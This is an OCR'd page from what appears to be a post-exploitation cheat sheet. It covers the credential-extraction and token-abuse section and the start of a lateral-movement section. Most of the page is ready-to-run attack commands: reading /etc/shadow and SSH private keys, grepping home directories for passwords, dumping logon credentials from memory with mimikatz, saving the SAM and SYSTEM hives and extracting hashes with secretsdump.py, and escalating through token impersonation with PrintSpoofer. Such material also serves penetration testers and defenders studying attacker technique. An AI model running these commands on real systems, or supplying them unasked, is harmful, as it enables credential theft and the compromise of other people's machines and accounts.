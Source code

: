 ***

### III. 🧠 Credential Extraction & Token Abuse

Post-exploitation means turning **secrets into new access**.

#### 🧩 Linux

```bash
cat /etc/shadow
grep -r "password" /home 2>/dev/null
strings /var/log/auth.log
```

Dump SSH keys:

```bash
find /home -name "id_rsa" 2>/dev/null
```

***

#### 🧩 Windows

Dump credentials from memory (with SYSTEM):

```powershell
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

Dump SAM/SECURITY/NTDS:

```powershell
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
```

Use `secretsdump.py`:

```bash
secretsdump.py -sam sam -system system LOCAL
```

Token impersonation:

```powershell
PrintSpoofer64.exe -i -c cmd.exe
```

***

### IV. 🚀 Lateral Movement Techniques

Once persistence is stable, expand laterally.\
Goal: **move to other systems or accounts**, harvesting domain-wide access.

***
